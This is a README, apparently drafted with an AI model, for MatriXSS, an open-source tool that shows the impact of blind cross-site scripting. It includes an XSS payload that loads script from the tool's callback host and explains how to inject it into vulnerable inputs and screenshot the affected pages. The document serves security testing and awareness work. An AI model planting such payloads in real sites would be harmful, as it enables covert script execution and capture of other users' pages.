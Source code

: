 Here’s a README layout for your **MatriXSS** project, inspired by the uploaded document:

---

# MatriXSS

## Table of Contents
1. [Introduction](#introduction)
2. [Key Features](#key-features)
3. [Installation](#installation)
4. [Usage](#usage)
5. [Technical Overview](#technical-overview)
6. [Examples](#examples)
7. [Design Philosophy](#design-philosophy)
8. [Contributing](#contributing)
9. [Future Work](#future-work)
10. [Acknowledgments](#acknowledgments)
11. [License](#license)

---

## Introduction
**MatriXSS** is an open-source tool designed to demonstrate and communicate the impact of **blind Cross-Site Scripting (XSS)** vulnerabilities. Developed in collaboration with **Hackify**, this project aims to address the challenges organizations face in understanding and mitigating blind XSS attacks.

Blind XSS attacks occur when the payload is triggered in a context inaccessible to the attacker, such as an admin interface. MatriXSS bridges the gap between technical vulnerability details and actionable insights by providing **visual demonstrations** and reports.

---

## Key Features
- **Visual Impact Demonstrations**: Show the effects of blind XSS in a clear, "matrix-style" visualization.
- **Custom Payload Support**: Tailor payloads to simulate real-world attacks.
- **Stakeholder-Friendly Outputs**: Simplified visuals and summaries for non-technical audiences.

---

## Installation

### Prerequisites
- Python 3.8+
- Required libraries listed in `requirements.txt`

### Run locally
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/MatriXSS.git
   cd MatriXSS
   ```
2. Create a virtual environment:
   ```bash
   # Windows:
   python -m venv venv

   # Linux / MacOS:
   python3 -m venv venv
   ```
3. Activate the virtual enviroment
    ```bash
    # Windows
    venv\Scripts\activate
    
    # Linux / MacOS
    . ./.venv/bin/activate
   ``` 
4. Install dependencies to the virtual environment:
   ```bash
   # Windows:
   pip install -r requirements.txt

   # Linux / MacOS:
   venv/bin/pip install -r requirements.txt
   ```

5. Start the application
   ```bash
   # Windows:
   python .\main.py
   
   # Linux / MacOS
   python3 ./main.py
   ``` 
  On windows:
  
### Run in Docker
1. Clone the repository:
   ```bash
   git clone https://github.com/your-username/MatriXSS.git
   cd MatriXSS
   ```
2. Docker compose
   ```bash
   docker compose up
   ```
---

## Usage
1. **Select a Payload**: Choose or customize a JavaScript payload to test a target.
2. **Inject Payload**: Manually input the payload into a vulnerable entry point (e.g., form fields or URL parameters).
3. **Callback Handling**: When a payload is executed, the tool automatically sends a **callback** to the server, capturing a screenshot of the vulnerability in action.
4. **Analyze Results**: Use the results page to review:
   - URL of the vulnerability.
   - Payload executed.
   - Screenshot of the impacted page.

### Basic Example
```bash
python matrixss.py --url http://example.com
```

## Technical Overview
### Core Workflow
1. **Payload Selection**: Choose a custom JavaScript payload to trigger vulnerabilities.
2. **Exploitation**: Inject payloads into potential entry points on a target web application.
3. **Data Collection**: Log vulnerabilities detected during the exploitation phase.
4. **Results Visualization**: Display findings in a visual, interactive format for stakeholders.

### Supported Tools
MatriXSS integrates concepts inspired by:
- **Toxxsin**: For advanced payload handling.
- **OWASP ZAP**: For general web application security.
- **XSSHunter**: For blind XSS-specific scenarios.

---

## Examples

### Manual XSS Test
1. Choose a payload:
   ```javascript
   '<script src="{APPLICATION_HOST_URL}"></script>'
   ```
2. Inject it into a vulnerable input field or URL parameter.
3. When the payload is triggered, the tool automatically:
   - Sends a callback to the server.
   - Captures a screenshot.
4. Review results on the **/results** page.


**Output**:
- Vulnerable URL: `/form`
- Payload: `alert('XSS Detected')`

### Visual Output
The tool generates a dashboard with:
- Screenshots of exploited pages.

---

## Design Philosophy
- **Accessibility**: Bridge technical complexity with intuitive visuals for non-technical audiences.
- **Modularity**: Enable integration with existing tools like OWASP ZAP or Jenkins.
- **Community-Driven**: Leverage open-source contributions to improve functionality and scope.

---

## Contributing
We welcome contributions! To contribute:
1. Fork the repository.
2. Create a branch for your feature:
   ```bash
   git checkout -b feature-name
   ```
3. Submit a pull request with a detailed description.

---

## Future Work
Planned improvements include:
- Metadata in screenshots to be added(add identifier to screenshots)
- Application screenshots need to be linked to specific user accounts
- Add functionality to register accounts
- Visualize where vulnerabilty is found.
- Implement security into webapplication.

---


---

## License
MatriXSS is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---
